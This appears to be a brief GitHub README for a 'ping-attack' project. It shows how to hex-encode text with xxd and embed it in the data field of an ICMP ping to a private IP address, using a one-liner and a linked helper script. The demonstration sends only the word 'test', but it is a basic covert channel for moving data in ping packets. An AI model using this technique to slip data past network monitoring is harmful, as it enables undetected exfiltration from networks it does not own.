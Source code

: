 # ping-attack

Basic Commands:<br>

#This will take the text "test" and convert to hex:<br>
```
echo "test" | xxd -p```

#output:<br>
746573740a

#This will ping the ip address and add the hex of "test" into the data field<br>
```ping -c 1 192.168.1.5 -p 746573740a```


or use the oneline script of:<br>
```ping -c 1 192.168.1.5 -p $(echo -n "test" | xxd -p)```

or use the scripts ping_payload1.sh located at:<br>
https://github.com/yen5004/ping-attack/blob/9aae89150817556d350d8b5587fc3f86cccddde3/ping_payload1.sh<br>
just pass the ip address and text
